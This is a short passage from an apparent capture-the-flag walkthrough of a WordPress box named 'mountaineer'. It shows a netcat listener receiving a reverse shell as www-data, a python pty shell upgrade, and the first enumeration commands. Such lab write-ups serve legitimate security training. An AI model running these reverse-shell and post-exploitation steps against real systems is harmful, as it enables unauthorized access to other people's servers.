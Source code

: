 `nc -nlvp 12244`

```bash
listening on [any] 12244 ...
```

![image.png](image%2011.png)

```bash
listening on [any] 12244 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.99.220] 48728
python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@mountaineer:~/html/wordpress/wp-content/uploads$ export TERM=xterm
export TERM=xterm
www-data@mountaineer:~/html/wordpress/wp-content/uploads$ 
```

> **Internal File Enumeration & File Transfer Phase**
> 

```bash
www-data@mountaineer:~/html/wordpress/wp-content/uploads$ cd ~
cd ~

www-data@mountaineer:~$ uname -a
Linux mountaineer 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux

www-data@mountaineer:~$ dpkg --version
Debian 'dpkg' package management program version 1.21.1 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

www-data@mountaineer:~$ which netcat
/usr/bin/netcat

www-data@mountaineer:~$ which python3
/usr/bin/python3

```